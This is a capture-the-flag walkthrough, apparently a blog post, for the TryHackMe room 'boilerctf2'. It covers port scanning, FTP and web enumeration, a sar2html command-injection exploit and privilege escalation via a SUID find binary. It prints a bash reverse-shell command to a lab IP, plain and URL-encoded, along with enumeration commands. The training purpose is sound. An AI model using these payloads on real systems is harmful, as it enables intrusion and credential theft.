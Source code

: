 ```yaml
---
title: CTF tryhackme boilerctf2
categories: [CTF, THM, Medium]
tags: [ftp, http, ssh, linux_privesc]
date: 2024-03-06 08:00 +0700
---
```


In this room, we'll see an interesting medium level CTF from tryhackme

[https://tryhackme.com/r/room/boilerctf2](https://tryhackme.com/r/room/boilerctf2)

## nmap
- `sudo nmap -sS --min-rate=500 -T4 -sV --version-all -O --script=default -r -vv $IPTA -oN nmap_full_$IPTA -p- -Pn`
	- 21 FTP
		-  anonymous allowed
	- 80 HTTP
		- Apache httpd 2.4.18 ((Ubuntu))
	- 10000 HTTP
		- MiniServ 1.930 (Webmin httpd)
	- 55007 SSH

## FTP enumeration
- `ftp ftp://anonymous@$IPTA` log in as anonymous, download and cat file content (it's obviously ROT13 encoding)

![](/assets/img/img_thm_ctf_boilerctf2_1.png)
- decyphering it with CyberChef
![](/assets/img/img_thm_ctf_boilerctf2_2.png)

## Webmin enumeration
- `searchsploit Webmin` our server version is 1.930 (cf nmap). The thing is, there was a great unauthenticated RCE for version 1.920, and there are a few exploits for versions above, but nothing for our version. The "HTML Email Command Execution" only affects versions <1.080. So no, we can't exploit it.
![](/assets/img/img_thm_ctf_boilerctf2_3.png)

## http enumeration
- `feroxbuster -u http://$IPTA:80 -t 30 -w /usr/share/dirb/wordlists/common.txt -x txt,html,sql,csv,png,jpg,jpeg,php,js,md,sh,py,css,cgi,xml,aspx,zip,tar,tar.gz,bak dir -o "ferox_$IPTA"_80_common_all.txt` let's try to find hidden folders/files
- let's look at the robots.txt file (cf nmap)
![](/assets/img/img_thm_ctf_boilerctf2_4.png)
- the result of the blurred cypher is "kidding" -> CyberChef -> From Decimal -> From Base64 -> md5 hash -> cracking it with john
![](/assets/img/img_thm_ctf_boilerctf2_5.png)
![](/assets/img/img_thm_ctf_boilerctf2_6.png)
- `cat ferox_10.10.232.144_80_common_all.txt | grep -Ev "manual"`
![](/assets/img/img_thm_ctf_boilerctf2_7.png)
- we found a CMS folder!
- `feroxbuster -u http://$IPTA:80/joomla -t 30 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,sql,csv,png,jpg,php,cgi,xml,zip,tar,bak dir -o "ferox_$IPTA"_80_joomla_med_3.txt` let's start a more detailed and precise forced browsing attack
- with all this enumeration, I found a few interesting folders `_files, _test, tmp, ~www`

## sar2html CVE exploit
- in `_test`, we get an interesting web module
![](/assets/img/img_thm_ctf_boilerctf2_8.png)
- searching for "sar2html", I found this CVE https://www.exploit-db.com/exploits/47204
- the exploit is quite simple to reproduce
![](/assets/img/img_thm_ctf_boilerctf2_9.png)
- our id command is executed! Can we get a reverse shell?
- let's replace "id" with `bash -c "bash -i >& /dev/tcp/10.11.64.57/56765 0>&1"` -> url encoded with CyberChef -> `bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E11%2E64%2E57%2F56765%200%3E%261%22`
- yes, we do get a reverse shell!
![](/assets/img/img_thm_ctf_boilerctf2_10.png)
- in log.txt, we get some SSH credentials
![](/assets/img/img_thm_ctf_boilerctf2_11.png)

# linux privesc
## password in bash script -> stoner
- `ssh basterd:$IPTA -p 55007`
- `cat backup.sh` in our user home, we get the credentials of an other user, in a bash script, as a comment
![](/assets/img/img_thm_ctf_boilerctf2_12.png)
- `su stoner`

## SUID script -> root
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -lah {} \; 2> /dev/null` we find an interesting SUID binary, find
	- cf https://gtfobins.github.io/gtfobins/find/#suid
![](/assets/img/img_thm_ctf_boilerctf2_13.png)
- now we just have to get the user.txt and root.txt flags
- `cat /root/root.txt; echo -e "\n"; cat /home/stoner/.secret`